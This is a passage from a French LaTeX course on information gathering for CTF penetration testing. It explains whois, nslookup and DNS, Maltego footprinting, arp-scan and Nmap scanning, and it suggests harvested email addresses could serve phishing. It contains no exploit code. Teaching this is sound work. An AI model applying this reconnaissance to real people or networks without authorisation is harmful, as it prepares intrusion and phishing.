 --- Le champ \textbf{netname} correspond au nom donné à une plage d'adresses IP. Un nom de réseau est composé de lettres, de chiffres, du caractère de soulignement et du trait d'union. Le premier caractère d'un nom doit être une lettre, et le dernier caractère d'un nom doit être une lettre ou un chiffre.\\

\subsection{Nslookup}

L'outil Nslookup est un outil implanté sur beaucoup de systèmes d'exploitation (OS) tel que Windows ou Linux. Cet outil permet de faire des résolutions DNS à partir d'un nom de domaine. En effet, cela est très pratique lorsqu'on veut récupérer une IP à partir d'un nom tel que \textbf{www.uvsq.fr}.\\

 \textbf{Fonctionnement requête DNS}\\

Nous allons ici présenter le bref fonctionnement d'une requête DNS puisque cette partie a déjà été expliqué dans d'autres modules auparavant. En premier lieu, le DNS permet d'associer un nom à une IP ce qui est très utile pour l'être humain.\\

 Le protocole DNS est un protocole UDP avec comme numéro de port 53. Le DNS est un modèle réparti hiérarchisé, sa mise en œuvre requiert plusieurs serveurs qui prennent en charge individuellement la traduction de parties complémentaires de l’espace des noms afin de rendre plus souple le traitement des sollicitations. Ces parties appelées "zones" sont en fait des domaines de noms dont l’administration est définie et attribuée à un ou plusieurs serveurs.

 La \textbf{figure \ref{fig:repartitiondns}} nous présente un schéma de la répartition des zones DNS.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.5\textwidth]{oui/images/Nslookup/dns.png}
  \caption{Répartition des zones DNS}
  \label{fig:repartitiondns}
\end{figure}

 Le domaine Racine est géré par les 13 serveurs DNS nommés \lstinline{<x>.root-servers.net}, où \lstinline{<x>} est une lettre comprise entre ‘a’ à ‘m’. Ces serveurs racines sont gérés par des organisations différentes nommées par l’ICANN. Les domaines enfants sont dits les domaines de premier niveau ou TLD (Top Level Domain). On y retrouve le domaine .com, .fr etc...\\

\newpage

Expliquons maintenant ce qu'il se passe lorsqu'un client effectue une requête DNS.

Il existe deux types de requête DNS. Les requêtes itératives, et récursives. Nous ne présenterons ici que les requêtes récursives, comme illustré sur la \textbf{figure \ref{fig:dns2}}.

\begin{figure}[t]
  \centering
  
\includegraphics[width=0.6\textwidth]{oui/images/Nslookup/dns2.png}
  \caption{Schéma d'une requête DNS récursive}
  \label{fig:dns2}
\end{figure}

\begin{enumerate}
    \item Le client effectue une requête DNS à son serveur DNS local.
    \item Le serveur DNS contacte le serveur racine pour récupérer l'ip du serveur TLD de la zone fr.
    \item Le DNS local contacte le TLD de la zone fr pour récupérer l'ip du sous domaine oktey.
    \item Ce dernier contacte le serveur qui fait autorité sur la zone oktey.fr pour récupérer l'ip associé à l'enregistrement mx de mail.okley.fr.
\end{enumerate}

 On constate qu'avec l'utilisation des requête récursives, c'est le serveur DNS local qui s'occupe de faire toutes les requêtes.\\
 Avec l'outil \textbf{Nslookup}, il est également possible d'effectuer une résolution inverse. En effet, cette dernière permet de récupérer le nom associé à une adresse IP. Pour ce faire, on utilise le domaine \textbf{in-addr.arpa} (RFC 1035) pour retrouver le nom associé.

 La technique de résolution inverse a été utilisée dans la figure 2.4. En effet, à partir de la plage d'IP récupéré avec l'outil \textbf{whois}, on peut effectuer des résolutions inverses pour tenter de récupérer le nom derrière ces IP. Ainsi, cela peut nous indiquer un service qui serait hébergé par cette IP. A partir de là, il sera plus facile d'orienter nos recherches pour continuer l'attaque.


\subsection{Maltego}

Maltego est un outil open source intélligent permettant la recherche d'informations précises sur une personne ou une entreprise. On appel ce genre d'outil un footprinting (reconnaissance passive). Maltego permet l'automtisation des tâches de recherches. Ainsi, avec ces informations, Maltego les représentent sous forme d'un graphique détaillé.\\

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/maltego/uvsq2.PNG}
  \caption{Présentation graphique de maltego}
  \label{fig:graphmaltego}
\end{figure}

\newpage
Dans la \textbf{figure \ref{fig:graphmaltego}}, on peut voir l'utilisation de Maltego sur le domaine \textbf{uvsq.com}. On peut donc récupérer des adresses mails, des numéros de téléphone, des noms de personnes ainsi que les sous domaines DNS associés à \textbf{uvsq.com}. Il est également possible de récupérer des adresses IP ainsi que le numéro d'AS sur lequel le site est hébergé.\\

Pour fonctionner, Maltego travaille à partir de bases de données ainsi que de recherches faites sur le web. En somme, cela évite à l'utilisateur de faire de longues recherches pour trouver une information sur une personne ou un site. Cela peut être extrêmement utile lors de la collecte d'informations sur une entreprise. En effet, avec les informations que nous pouvons récupérer, il serait possible de cibler plus facilement les attaques ou même de faire du phishing avec les adresses emails obtenues.
%

\newpage
\section{Collecte d'informations active}

La collecte d'informations active va consister à reccueillir des informations en effectuant des requêtes sur le réseau et/ou machine cible. Cette étape va donc nous permettre de récupérer des informations telles que l'IP, l'adresse MAC, les ports ouverts, etc... Sans cette phase, une attaque serait impossible. C'est pourquoi il est important de penser à marquer dans un fichier texte l'ensemble des informations obtenues au cours de cette recherche. Nous allons dans cette partie vous présenter les outils adéquats et leur fonctionnement afin que vous puissiez obtenir facilement les données que nous pourrons exploiter par la suite. Nous verrons les outils suivants :

\begin{itemize}
    \item Arp-scan en tant que scanneur de machines
    \item Nmap en tant que scanneur de ports
    \item Dirb / Dirbuster en tant que scanneur de répertoire Web
    \item Nikto en tant que scanneur de vulnérabilités
\end{itemize}

\subsection{Arp-scan}

Arp-scan est un utilitaire qui permet  d’obtenir les adresses IP d’un réseau via la couche 2 du modèle OSI . Le modèle OSI est une norme d’exemple pour tous les types de transmissions réseaux. Ce modèle peut être vu comme en \textbf{figure \ref{fig:osi}}.
%Image modèle OSI
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.4\textwidth]{oui/images/Arpscan/modeleOSI.PNG}
  \caption{Schéma du modèle OSI}
  \label{fig:osi}
\end{figure}

La couche 2 est la couche de liaison de données. Cette dernière correspond à l’adressage physique des machines, soit l’adresse MAC. L’adresse MAC est l’adresse unique d’une interface réseau d’un équipement. Cette adresse est codée en hexadécimal en 6 octets.\\

 \textbf{Fonctionnement d'Arp-scan}\\

Cet outil va envoyer une requête ARP en broadcast sur le réseau et afficher l’IP, l'adresse MAC ainsi que, si possible, l'origine de chaque hôte. Si un hôte ne répond pas, le paquet ARP sera envoyé à nouveau. Le nombre maximum de tentatives peut être modifié avec l'option --retry. Cependant, si l'on réduit le nombre de tentatives, alors cela réduira le temps du scan mais engendrera le risque de perdre certains résultats en raison de la perte de paquets.
Comme vous pouvez le voir sur la \textbf{figure \ref{fig:arpscanwireshark}}, la capture Wireshark effectuée après un "arp-scan" se présente de la même manière qu’une requête ARP.

%Image Wireshark arp broadcast
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/Arpscan/wireshark.PNG}
  \caption{Capture Wireshark}
  \label{fig:arpscanwireshark}
\end{figure}

Le protocole ARP est un protocole de niveau 2 (couche de liaison de données) qui est utilisé pour déterminer l'adresse MAC (couche 2) d'un hôte distant à partir de son adresse IP (couche 3). Le protocole ARP a été conçu pour fonctionner avec n'importe quel format d'adresse de couche 2 et de couche 3, mais l'utilisation la plus courante est de cartographier un réseau.
Cependant, cet outil ne peut être utilisé que sur des réseaux LAN car les requêtes ARP ne peuvent pas être routées dans le cas d’un scan de réseau Local.
Ce protocole utilise des adresses IP, mais il n'est pas basé sur IP. Ainsi, Arp-scan peut être utilisé sur une interface qui n'est pas configurée pour IP. La \textbf{figure \ref{fig:arpscanl}} présente l'utilisation la plus commune de cet outil.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.9\textwidth]{oui/images/Arpscan/unknown.png}
  \caption{Arp-scan  - -localnet}
  \label{fig:arpscanl}
\end{figure}

Une fois l'IP cible récupérée, nous allons pouvoir analyser ses ports avec Nmap.

\subsection{Nmap}

Nmap est un utilitaire permettant de scanner les ports ouverts d’une machine ou d’un ensemble de machines présentes dans un même réseau. Les ports (logiciels) d'une machine permettent de distinguer les différents programmes qui écoutent et transmettent des informations sur cette machine. En effet, chaque programme ou service se verra atribuer un numéro de port qui servira à identifer le processus associé. En trouvant ces ports, Nmap se rend comme l’élément essentiel d’une attaque réseau. En effet, sans cette analyse, nous serions incapable de trouver un chemin d’attaque à moins d’avoir une chance inouïe. C’est pourquoi nous allons utiliser cet utilitaire pour résoudre nos CTFs.\\

 \textbf{Fonctionnement de Nmap}\\

Pour comprendre comment fonctionne Nmap, il va falloir revoir les bases du protocole TCP grâce à la \textbf{figure \ref{fig:3way}}.


\newpage

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.8\textwidth]{oui/images/nmap/3way.png}
  \caption{Three-way Handshake}
  \label{fig:3way}
\end{figure}

Le protocole TCP de TCP-IP est situé au niveau de la couche Transport du modèle OSI (couche 4). Il va nous permettre d'établir une connexion fiable et sans pertes. Dans un premier temps, TCP va établir la connexion via le Three-way Handshake qui sont :

\begin{itemize}
    \item SYN
    \item SYN ACK
    \item ACK
\end{itemize}

A la suite de cette étape, le protocole de plus haut niveau faisant les requêtes pourra émettre et sera suivi dans un ACK TCP pour s'assurer de l'intégrité de la trame comme on peut le voir sur la \textbf{figure \ref{fig:acktcp}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Nikto/wireshark1.PNG}
  \caption{ACK TCP}
  \label{fig:acktcp}
\end{figure}

Sur l'exemple ci-dessus, on peut voir dans la section "Info" de Wireshark que les ports sont indiqués. On comprend alors que TCP ne cible pas une IP mais un socket. Un socket est l'ensemble de l'adresse IP et du port utilisé. Il est souvent représenté sous la forme suivante : \verb+192.168.1.200:80+. C'est donc en faisant varier le port du socket que Nmap pourra détecter si un port est ouvert ou non. Ainsi, si Nmap reçoit une réponse que de la machine cible à la suite d'un SYN TCP, cela voudra dire que le port est ouvert.\\
Maintenant que nous avons compris comment Nmap détecte si un port est ouvert ou non, nous allons nous intéresser à la détection du service associer à ce port. En effet, Nmap peut fournir le nom et même la version d'un service déployé sur un port d'une machine cible.\\

 Pour cela, l'outil se base sur deux fichiers qu'il utilise comme dictionnaire. Ces deux documents se situent dans son dossier d'éxécution et sur internet :

\begin{itemize}
    \item \textbf{nmap-services: https://svn.nmap.org/nmap/nmap-services}
    \item \textbf{nmap-services-probes: https://svn.nmap.org/nmap/nmap-service-probes}
\end{itemize}

 Le fichier nmap-services contient une association de nom de service en fonction du port. En effet, il existe trois catégories de ports :

\begin{itemize}
    \item \textbf{1-1023 : Well-known ports}
    \item \textbf{1024-49151 : Registered ports}
    \item \textbf{49152-65535 : Dynamic ports}
\end{itemize}

 Les "Well-kown ports" sont des ports attitrés à des service par l'IANA (Internet Assigned Numbers Authority). Ces services sont les plus connus du monde des réseaux et doivent être éxécutés en tant qu'administrateur. Les "Registered ports" sont eux aussi attribués par l'IANA mais ne nécessitent pas d'une éxecution en tant qu'administrateur. Les "Dynamic ports" ou ports dits "éphémères", comme le nom l'indique, sont distribués de manière dynamique par le système d'exploitation afin de pouvoir rentrer en contact avec un service. C'est donc en fontion de ce recensement que Nmap met à jour sa liste nmap-services. La question la plus légitime à la suite de cette explication est la suivante :\\
"Comment Nmap peut récupérer le nom d'un service déployé sur un port n'ayant pas été répertorié ?"\\
Nmap vous répondra en fonction de votre requête. En effet, si vous n'effectuez qu'un simple scan, l'outil ne va s'appuyer que sur nmap-services pour détecter le service. Cependant, si vous vous voulez avoir de plus amples informations sur le port, il vous faudra effectuer un scan de version. Ce scan se base sur le fichier "nmap-service-probes". Ce dernier contient des requêtes à effectuer en fonction des ports ouverts et des expressions régulières à tester avec la réponse du services. Si le test est positif, Nmap pourra afficher les informations présentes à la suite de l'expression régulière. Ce type de scan est donc beaucoup plus précis. La \textbf{figure \ref{fig:fonctionnementnmap}} représente donc le fonctionnement de base de Nmap.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.9\textwidth]{oui/images/nmap/basenmapdiag.png}
  \caption{Schéma fonctionnement Nmap}
  \label{fig:fonctionnementnmap}
\end{figure}

Nous allons voir maintenant comment appliquer ce fonctionnement à un CTF.

 \textbf{Application de Nmap}\\

Dans cette partie, nous allons voir comment utiliser Nmap en ligne de commandes (CLI) en fonction des informations que l'on souhaite récupérer.\\

 \textbf{Mode basique}\\

Si vous souhaitez ne faire qu'un scan rapide sans option, la \textbf{figure \ref{fig:scanbasique}} présente la commande à effectuer.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.7\textwidth]{oui/Ancien/imangeancien/Nmap/justeip.PNG}
  \caption{Scan basique}
  \label{fig:scanbasique}
\end{figure}

Comme on peut le voir ci-dessus, le résultat de ce scan simple nous permet de savoir que le port 80 est ouvert et que le sevice associé est HTTP. Si on observe un peu plus cette capture d'écran, on peut voir que Nmap a résolu via DNS le nom de notre cible qui est ici bulldog2-1.\\
Du côté de Wireshark, nous pouvons observer, en \textbf{figure \ref{fig:wirebasique}}, sa technique de détection de port que l'on nomme "la semi-ouverture de ports".

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/nmap/Wirebasique.PNG}
  \caption{Wireshark d'un scan de port 80}
  \label{fig:wirebasique}
\end{figure}

Dans le cas ci-dessus, l'attaquant est en 10.0.2.15 et la cible en 10.0.2.8. On se rend compte Nmap ne complète pas le Three-way Handshake et coupe brutalement la connexion via un RST TCP.
Ce scan est très rapide mais manque d'informations et est très visible sur le réseau... Il n'est pas forcément à privilégier.\\

 \textbf{Scan de version}\\

Si vous souhaitez obtenir des informations concerant le serveur de déployement du service afin de trouver des failles associées, il vous faudra utiliser l'option -sV de Nmap visualisable en \textbf{figure \ref{fig:sv}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/Nmap/-sV.PNG}
  \caption{Scan de version}
  \label{fig:sv}
\end{figure}

\newpage
Ce scan affiche une nouvelle colonne qui contient les informations du service. Regardons ce qu'il se passe au niveau de Wireshark en \textbf{figure \ref{fig:svwire}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/nmap/Wireversion.PNG}
  \caption{Obtention d'informations de version sous Wireshark}
  \label{fig:svwire}
\end{figure}

Dans un premier temps, nous retrouvons bien la demi-ouverture de port puis Nmap effectue le 3-way Handshake afin de se connecter au service qui est ici HTTP. Il va ensuite aller chercher dans son dictionnaire nmap-service-probes les requêtes à effectuer afin d'obtenir des informations. Dans notre cas, il va commencer par effectuer un GET et obtenir une réponse dans le HTTP/1.1 200 OK. Cela signifie que la page existe et que son retour est positif. Par exemple, si nous avions ouvert la réponse envoyée par la cible, nous aurions vu tout le contenu HTML de la page. Cette réponse est donc comparée à des expressions régulières présentes dans le fichier nmap-service-probes. Ce type de scan est donc plus approprié afin de trouver des failles. Cependant, il existe un moyen beaucoup plus complexe et complet qui est le scan via script.\\

 \textbf{Scan par script}\\

Dans le but d'obtenir des informations très précises, Nmap peut aussi s'éxecuter avec l'aide de scripts. Cette méthode s'appelle "Nmap Scripting Engine" ou NSE et s'appuie donc sur les mécanismes de Nmap et sur la légèreté des scripts Lua. Le langage Lua est très présent dans le monde du réseau comme par exemple dans Wireshark, dans les routeurs Cisco et d'autres. Nmap contient dans son répertoire près de 601 scripts regroupés sous 139 catégories. Il est donc tout à fait possible de créer un script et de l'excécuter avec Nmap. Cependant, nous allons nous baser sur un script déjà fait et qui exécute plusieurs scripts de différentes catégories afin d'obtenir des réponses précises et variées. Ce script est l'option par défault choisi par Nmap lors de la présence de l'argument -sC comme indiqué sur la \textbf{figure \ref{fig:nse}}.\\

\begin{figure}[t!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
